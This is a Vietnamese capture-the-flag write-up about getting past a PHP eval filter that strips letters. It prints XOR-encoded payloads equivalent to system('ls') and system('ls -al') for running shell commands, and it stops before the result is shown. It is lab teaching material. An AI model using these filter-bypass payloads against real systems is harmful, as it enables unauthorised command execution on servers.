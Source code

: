 - Mục tiêu của ta là bypass filter (lọc các ký tự alphabet) để thực thi các lệnh command line bằng hàm `eval`. Vì các ký tự alphabet đều bị lọc nên ta thử tìm kiếm cách bypass bằng XOR(https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) 

- Viết một script để có thể tự động chuyển chuỗi của ta thành payload có thể bypass:

![1](img/55/Screenshot%20from%202023-02-01%2008-37-37.png)

- Với payload `('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-').'('.('['^'|').('@'^',').('^'^'-').('['^'|').')'` (Tương đương với lệnh `system('ls')`). Kết quả ta thấy trang web chỉ in ra mà không thực thi hàm như mong muốn:
  
![1](img/55/Screenshot%20from%202023-02-01%2008-39-36.png)

- Thử search google thì thấy gợi ý về việc thay đổi cách gọi hàm. Ví dụ ta đổi thành: `(system)(ls)` hoặc `(system)('ls')`. 

- Việc của bây giờ là đi tìm file chứa flag, thử với `ls -al` ta có

  - Payload: `(('^'^'-').('$'^']').('^'^'-').('^'^'*').('@'^'%').('@'^'-'))(('@'^',').('^'^'-').('~'^'^').'-'.('!'^'@').('@'^','))` (Tương đương `(system)(ls -al)`)

  - Kết quả
